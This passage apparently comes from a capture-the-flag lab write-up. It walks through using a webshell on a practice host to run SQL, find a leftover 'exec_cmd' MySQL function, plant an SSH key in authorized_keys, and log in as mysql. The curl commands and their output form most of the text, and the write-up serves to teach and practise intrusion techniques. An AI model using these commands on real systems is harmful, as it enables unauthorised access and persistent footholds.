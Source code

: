 ```
?>
"""

```

It works:

```

root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select @@version'
5.7.30-0ubuntu0.18.04.1 

```

#### exec\_cmd

Eventually I checked the `mysql.func` table, which [stores information about user-defined functions](https://mariadb.com/kb/en/mysqlfunc-table) created with the `CREATE FUNCTION UDF` statement. The headers are `Name, Ret, dl, type`:

```

root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select * from mysql.func;'
exec_cmd 0 libmysql.so function 

```

`exec_cmd` isn’t a standard MySQL function, but rather a user defined function (UDF), perhaps left behind by the attacker. Just knowing the name, it’s worth a shot to run something. Command output doesn’t seem to come back (seems like that’s an issue with my shell, as `exec_cmd` does return data, as I’ll show in the next section), but it does seem to run, as running `ping -c 5` takes about five seconds to return.

#### Shell

Just like with the webshell, nothing that sends traffic back to my host seems to work. But I can guess that since the user had a shell added, perhaps there’s a `.ssh` directory. And it works:

```

root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode "db=SELECT exec_cmd('echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /var/lib/mysql/.ssh/authorized_keys');"
root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
The authenticity of host '10.10.10.207 (10.10.10.207)' can't be established.
ECDSA key fingerprint is SHA256:eYvjeWOH3lYrex1T0a/7BQsAv9L4YbZem1T0BGWjtVE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.207' (ECDSA) to the list of known hosts.
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.4
mysql@compromised:~$

```
